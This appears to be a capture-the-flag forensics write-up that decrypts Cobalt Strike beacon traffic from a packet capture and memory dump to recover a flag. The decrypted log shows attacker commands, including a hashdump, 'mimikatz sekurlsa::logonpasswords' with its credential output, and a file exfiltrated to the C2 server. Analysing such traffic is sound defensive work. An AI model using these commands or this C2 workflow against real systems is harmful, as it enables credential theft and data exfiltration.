








# Strike Back

## Scenario

A fleet of steam blimps waits the final signal from their commander in order to attack gogglestown kingdom. A recent cyber attack had us thinking if the enemy managed to discover our plans and prepare a counter-attack. Will the fleet get ambused???

## Given artifact

A packet capture file, the scenario and challenge's name strongly implies this challenge involves Cobalt Strike C2, the top-level Command and Control standard, close-source, malleable C2 profile... It should be a hard attempt to solve... 

## Solving process

Skimming through the pcap file, it can be seen clearly that the victims's machine downloaded some suspicious file from the Internet, the initial `.exe` file may only be a downloader/stager, and it downloads the second payload `iVd9`:



After being infected with these two files, the host begins to send suspicious packets out:





The cookies in the GET requests are the same, perhaps it's the unique ID of this client, and the GET request is used to get commands, the result is sent back to the attacker used POST request, the data is heavily encrypted for sure. That's my hypothesis.

Note that we are also given a minidump crash report `.dmp` file, these two things are perfectly suitable for famous [Didier Stevens's suite for Cobalt Strike](https://github.com/DidierStevens/DidierStevensSuite/tree/master) , Cobalt Strike is an ultimate C2 platform, it would be terrible if we try to handle the traffic decryption ourselves, there are already dedicated tools written by people in the community.

**Before doing anything further, let's get a basic understanding of Cobalt Strike's traffic encryption:**

1. The Raw Key Generation: When the Beacon first starts, it generates a completely random 16-byte (128-bit) array. This is the "Raw Key."

2. The Metadata Handshake: The Beacon encrypts this 16-byte Raw Key using the attacker's RSA Public Key and sends it to the server in that initial HTTP GET request cookie.

3. Key Derivation: To figure out the actual keys for encrypting the traffic, both the Beacon and the C2 server take that 16-byte Raw Key and calculate its SHA-256 hash.

4. The Split: A SHA-256 hash is exactly 32 bytes long. Cobalt Strike splits this hash straight down the middle:

- First 16 bytes: Becomes the HMAC Key (used to verify the integrity of the packets).

- Second 16 bytes: Becomes the AES Key (used for AES-128-CBC encryption of the actual commands and outputs).

Now let's roll up our sleeve with `1768.py`, a tool used for extracting the shell code to identify C2 server and some of its setting/configuration. I run it on the second file, as the first `.exe` file may only be a dropper:



**C2 Server:** The Beacon is calling home to 192.168.1.9 on Port 80 (HTTP).

**Payload Type:** `windows-beacon_http-reverse_http`, this confirms it's an HTTP beacon, meaning all traffic will look like standard web browsing.

**Sleeptime:** 60000 (milliseconds), the beacon is programmed to check in with the server every 60 seconds.

**Jitter:** 0, jitter introduces randomness to the sleep time to evade detection. Because this is set to 0%, you should see traffic in your PCAP exactly every 60 seconds like clockwork.

**User-Agent:** It fakes its browser string as an old Internet Explorer 8 browser: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0...).

**GET Requests (Checking for Tasks):** When the Beacon reaches out to see if the attacker has typed a command, it sends an HTTP GET request to /match. To prove its identity to the server, it takes its metadata (computer name, user, etc.), encodes it in BASE64, and stuffs it inside the HTTP Cookie header.



**POST Requests (Sending Data Back):** When the Beacon has output from a command to return to the attacker, it sends an HTTP POST request to /submit.php. It sets the Content-Type to application/octet-stream and places its Session ID into a URL parameter literally named id.

**SpawnTo:** When the Beacon needs to run post-exploitation jobs (like a keylogger or a port scanner), it doesn't run them inside its own memory space. Instead, it injects them into a newly spawned rundll32.exe process.

Okay, now that we get the overview of the C2's structure, let's extract the aforementioned AES and HMAC key using a standard tool for this scenario: `cs-extract-key.py`, in principle, this tool looks at every 16 bytes in the `.dmp` file, and assume it is the AES key to decrypt the payload, if the result is garbage, it continue with the next 16 bytes until the end of the dump file. Recall to the key-generating process, we may either use the GET response (with -t option) or the POST request (with -c option), as the AES encryption is **symmetric**. Here I choose to use the first GET response, as it is shorter:



Great, it successfully finds the AES and HMAC we need here, now let's fire the final tool: `cs-parse-traffic.py`, it will chew the pcap file directly, we provide it with the keys, and it will return the decrypted traffic:

```text
lehie@MSI:/mnt/c/CTF_Workspace/BKSEC/Chall-Medium/Strike Back$ python3 ~/cs-parse-traffic.py -k bf2d35c0e9b64bc46e6d513c
1d0f6ffe:3ae7f995a2392c86e3fa8b6fbc3d953a capture.pcap
Packet number: 12
HTTP response (for request 7 GET)
Length raw data: 14336
HMAC signature invalid

Packet number: 47
HTTP response (for request 23 GET)
Length raw data: 206401
HMAC signature invalid

Packet number: 69
HTTP response (for request 66 GET)
Length raw data: 48
Timestamp: 1637354721 20211119-204521
Data size: 8
Command: 27 COMMAND_GETUID
 Arguments length: 0

Packet number: 76
HTTP request POST
http://192.168.1.9/submit.php?id=1909272864
Length raw data: 68
Counter: 2
Callback: 16 CALLBACK_TOKEN_GETUID
b'WS02\\npatrick (admin)'

Packet number: 101
HTTP response (for request 86 GET)
Length raw data: 87648
Timestamp: 1637354781 20211119-204621
Data size: 87608
Command: 89 COMMAND_SPAWN_TOKEN_X86
 Arguments length: 87552
 b'MZ\xe8\x00\x00\x00\x00[REU\x89\xe5\x81\xc3)\x1f\x00\x00\xff\xd3\x89\xc3Wh\x04\x00\x00\x00P\xff\xd0
 MD5: 1e4b88220d370c6bc55e213761f7b5ac
Command: 40 COMMAND_JOB_REGISTER
 Arguments length: 40
 Unknown1: 0
 Unknown2: 1602864
 Pipename: b'\\\\.\\pipe\\8e09448'
 Command: b'net user'
 b''

Packet number: 109
HTTP request POST
http://192.168.1.9/submit.php?id=1909272864
Length raw data: 724
Counter: 3
Callback: 24 CALLBACK_NETVIEW
b"Account information for npatrick on \\\\localhost:\n\nUser name                    npatrick\nFull Name                    npatrick\nComment                      Fleet Commander\nUser's Comment               \nCountry code                 0\nAccount active               Yes\nAccount expires              Never\nAccount type                 Admin\n\nPassword last set            221 hours ago\nPassword expires             Yes\nPassword changeable          Yes\nPassword required            Yes\nUser may change password     Yes\n\nWorkstations allowed         \nLogon script                 \nUser profile                 \nHome directory               \nLast logon                   11/19/2021 12:41:23\n"

Packet number: 135
HTTP response (for request 119 GET)
Length raw data: 82528
Timestamp: 1637354843 20211119-204723
Data size: 82501
Command: 44 COMMAND_SPAWNX64
 Arguments length: 82432
 b'MZARUH\x89\xe5H\x81\xec \x00\x00\x00H\x8d\x1d\xea\xff\xff\xffH\x81\xc3T\x16\x00\x00\xff\xd3H\x89\x
 MD5: 851cbc5a118178f5c548e573a719d221
Command: 40 COMMAND_JOB_REGISTER
 Arguments length: 53
 Unknown1: 0
 Unknown2: 1391256
 Pipename: b'\\\\.\\pipe\\8a4f8bc8'
 Command: b'dump password hashes'
 b''

Packet number: 143
HTTP request POST
http://192.168.1.9/submit.php?id=1909272864
Length raw data: 548
Counter: 4
Callback: 21 CALLBACK_HASHDUMP
b'Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nDefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nGuest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nJohn Doe:1001:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::\nnpatrick:1002:aad3b435b51404eeaad3b435b51404ee:3c7c8387d364a9c973dc51a235a1d0c8:::\nWDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c81c8295ec4bfa3c9b90dcd6c64727e2:::\n'

Packet number: 190
HTTP response (for request 153 GET)
Length raw data: 438896
Timestamp: 1637354904 20211119-204824
Data size: 438866
Command: 44 COMMAND_SPAWNX64
 Arguments length: 438784
 b'MZARUH\x89\xe5H\x81\xec \x00\x00\x00H\x8d\x1d\xea\xff\xff\xffH\x81\xc3\xb8\x87\x00\x00\xff\xd3H\x8
 MD5: b0cfbef2bd9a171b3f48e088b8ae2a99
Command: 40 COMMAND_JOB_REGISTER
 Arguments length: 66
 Unknown1: 0
 Unknown2: 2112152
 Pipename: b'\\\\.\\pipe\\673dd5c0'
 Command: b'mimikatz sekurlsa::logonpasswords'
 b''

Packet number: 204
HTTP request POST
http://192.168.1.9/submit.php?id=1909272864
Length raw data: 4516
Counter: 5
Callback: 32 CALLBACK_OUTPUT_UTF8

Authentication Id : 0 ; 334782 (00000000:00051bbe)
Session           : Interactive from 1
User Name         : npatrick
Domain            : WS02
Logon Server      : WS02
Logon Time        : 11/19/2021 12:40:19 PM
SID               : S-1-5-21-3301052303-2181805973-2384618940-1002
        msv :
         [00000003] Primary
         * Username : npatrick
         * Domain   : .
         * NTLM     : 3c7c8387d364a9c973dc51a235a1d0c8
         * SHA1     : 44cb46af6b1e8c5873bee400115d1694e650c5b4
        tspkg :
        wdigest :
         * Username : npatrick
         * Domain   : WS02
         * Password : (null)
        kerberos :
         * Username : npatrick
         * Domain   : WS02
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 334736 (00000000:00051b90)
Session           : Interactive from 1
User Name         : npatrick
Domain            : WS02
Logon Server      : WS02
Logon Time        : 11/19/2021 12:40:19 PM
SID               : S-1-5-21-3301052303-2181805973-2384618940-1002
        msv :
         [00000003] Primary
         * Username : npatrick
         * Domain   : .
         * NTLM     : 3c7c8387d364a9c973dc51a235a1d0c8
         * SHA1     : 44cb46af6b1e8c5873bee400115d1694e650c5b4
        tspkg :
        wdigest :
         * Username : npatrick
         * Domain   : WS02
         * Password : (null)
        kerberos :
         * Username : npatrick
         * Domain   : WS02
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 46420 (00000000:0000b554)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WS02$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 46226 (00000000:0000b492)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WS02$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WS02$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : WS02$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : ws02$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 26445 (00000000:0000674d)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-96-0-0
        msv :
        tspkg :
        wdigest :
         * Username : WS02$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 26411 (00000000:0000672b)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-96-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WS02$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 25289 (00000000:000062c9)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WS02$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 11/19/2021 12:40:12 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WS02$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : ws02$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Extra packet data: b'\x00\x00\x00'

Packet number: 217
HTTP response (for request 214 GET)
Length raw data: 80
Timestamp: 1637354965 20211119-204925
Data size: 43
Command: 53 COMMAND_LS
 Arguments length: 35
 b'\xff\xff\xff\xfe\x00\x00\x00\x1bC:\\Users\\npatrick\\Desktop\\*'
 MD5: 2211925feba04566b12e81807ff9c0b4

Packet number: 224
HTTP request POST
http://192.168.1.9/submit.php?id=1909272864
Length raw data: 324
Counter: 6
Callback: 22 CALLBACK_PENDING
b'\xff\xff\xff\xfe'
----------------------------------------------------------------------------------------------------
C:\Users\npatrick\Desktop\*
D       0       11/19/2021 12:24:08     .
D       0       11/19/2021 12:24:08     ..
F       5175    11/11/2021 03:24:13     cheap_spare_parts_for_old_blimps.docx
F       282     11/10/2021 07:02:24     desktop.ini
F       24704   11/11/2021 03:22:16     gogglestown_citizens_osint.xlsx
F       62393   11/19/2021 12:24:10     orders.pdf

----------------------------------------------------------------------------------------------------

Packet number: 237
HTTP response (for request 234 GET)
Length raw data: 80
Timestamp: 1637355025 20211119-205025
Data size: 44
Command: 11 COMMAND_DOWNLOAD
 Arguments length: 36
 b'C:\\Users\\npatrick\\Desktop\\orders.pdf'
 MD5: b25952a4fd6a97bac3ccc8f2c01b906b

Packet number: 254
HTTP request POST
http://192.168.1.9/submit.php?id=1909272864
Length raw data: 62572
Counter: 7
Callback: 2 CALLBACK_FILE
 parameter1: 0
 length: 62393
 filenameDownload: C:\Users\npatrick\Desktop\orders.pdf

Counter: 8
Callback: 8 CALLBACK_FILE_WRITE
 Length: 62393
 MD5: 00f542efefccd7a89a55c133180d8581

Counter: 9
Callback: 9 CALLBACK_FILE_CLOSE
b'\x00\x00\x00\x00'

Commands summary:
 11 COMMAND_DOWNLOAD: 1
 27 COMMAND_GETUID: 1
 40 COMMAND_JOB_REGISTER: 3
 44 COMMAND_SPAWNX64: 2
 53 COMMAND_LS: 1
 89 COMMAND_SPAWN_TOKEN_X86: 1

Callbacks summary:
 2 CALLBACK_FILE: 1
 8 CALLBACK_FILE_WRITE: 1
 9 CALLBACK_FILE_CLOSE: 1
 16 CALLBACK_TOKEN_GETUID: 1
 21 CALLBACK_HASHDUMP: 1
 22 CALLBACK_PENDING: 1
 24 CALLBACK_NETVIEW: 1
 32 CALLBACK_OUTPUT_UTF8: 1
```

The attacker performs initial check by listing users, list files, and fire mimikatz to dump credentials, he also uploads some executable files and download a .pdf file back. To get those file in the payload, we add `-e option` to the previous command, the returned file will have a weird extention, but the magic bytes will tell us what they truly are, I also rename them to its correct format for convenient inspection:



The pdf file is the first thing I open, and the flag sits right there:



For other executable files, we may also investigate them using ghidra, the decompiled code is readable, I can observe some helper functions, but it may comsume a lot of time to fully reverse-engineer them, so I stop here. 

`Flag: HTB{Th4nk_g0d_y0u_f0und_1t_0n_T1m3!!!!}`